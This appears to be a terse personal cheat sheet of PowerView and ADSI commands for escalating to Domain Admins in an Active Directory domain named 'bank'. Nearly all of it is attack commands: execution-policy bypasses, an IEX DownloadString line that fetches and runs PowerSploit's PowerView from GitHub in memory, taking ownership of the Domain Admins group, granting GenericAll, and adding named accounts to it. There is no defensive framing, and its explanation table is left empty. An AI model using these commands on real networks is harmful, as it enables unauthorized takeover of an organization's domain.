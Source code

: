 #### Power view cheet
-----------------------------------------------------------------------
# Commands

```bash
>powershell -ep bypass

>Import-Module .\PowerView.ps1

>Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'

>Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"

>net group "domain admins" goodboy /add /domain
```

------------------------------------------------------------------------------------------------------------
# Import the AD module (requires RSAT or AD PowerShell tools)
>Import-Module ActiveDirectory

# Now try the command again
>$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"

--------------------------------------------------------------------------------------------------------
>$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"

>$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity

------------------------------------------------------------------------------------------------------------
# Create the AD: drive if missing
>New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"

# Now get ACL
>$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"

---------------------------------------------------------------------
# 1. Take ownership
>$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"

>$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))

>$group.psbase.CommitChanges()

# 2. Add self to group
>$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")


Key Explanations:

Permission	Why Needed
Modify owner	
Modify permissions	
Write properties	


---------------------------------------------------------------------------------
with ✔ Modify permissions

>IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

>Get-Command -Module PowerView

. (If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)

# Verify if 'bb2' has WriteDACL on Domain Admins
>Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights

# Add GenericAll permission
>Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose

# Add your account to the group
>Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose

# Verify
>Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
--------------------------------------------------------------------------------------------------------

## with permission  - write all properties ✔ is  only enabled

### if powerview  fails
>$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
>$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")

---------------------------------------------------------------------------
### with permissions - ✔ modify owner is only enabled

>IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

or downloade the script and run by import

>powershell -ep bypass
>Import-Module .\powerview.ps1

>Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl

>Set-ExecutionPolicy Bypass -Scope Process -Force

# 1. Take ownership
>Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose

# 2. Grant yourself GenericAll
>Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose

# 3. Add to group
>Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose